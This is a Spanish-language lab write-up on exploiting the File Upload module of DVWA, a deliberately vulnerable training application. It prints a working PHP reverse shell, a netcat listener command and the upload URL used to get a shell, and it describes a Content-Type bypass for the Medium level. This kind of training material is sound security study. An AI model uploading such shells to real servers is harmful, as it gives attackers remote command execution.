 # File Upload - DVWA

## Nivel de seguridad: Low

Se permite la subida de archivos sin restricciones adecuadas, lo que permite cargar archivos maliciosos como una **reverse shell** en PHP.

![Subida exitosa del archivo](assets/file_upload_0_low.png)

Creamos un archivo `rev.php` con el siguiente código:

```php
<?php
$ip = '127.0.0.1';
$port = 9001;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

**Pasos realizados:**
1. Se carga el archivo `rev.php` mediante el formulario de subida.
2. Escuchamos la conexión entrante en nuestra máquina usando:

```bash
nc -lvnp 9001
```

3. Accedemos a la URL del archivo subido:

```url
http://127.0.0.1/DVWA/hackable/uploads/rev.php
```

4. Se consigue una shell reversa como el usuario `www-data`.

![Reverse Shell exitosa](assets/file_upload_1_low.png)

### Resultado

Se obtiene acceso remoto al sistema vulnerable.

---

## Nivel de seguridad: Medium

**Nota:** No se realizó la prueba en nivel **Medium** debido a que el comportamiento esperado no se encontraba disponible.

Según la guía, en este nivel se bloquean los archivos `.php`, pero se puede intentar evadirlo cambiando el `Content-Type` a `image/png` usando el navegador:

- Ir a **Inspeccionar elemento** > **Pestaña Network**.
- Volver a enviar el formulario para capturar la petición.
- Seleccionar la petición, hacer **click derecho** > **Editar y reenviar**.
- Modificar el `Content-Type` antes de reenviar.

---

> **Nota:** La falta de validación estricta del tipo de archivo o la extensión permite ejecutar código remoto en el servidor, lo cual es extremadamente peligroso.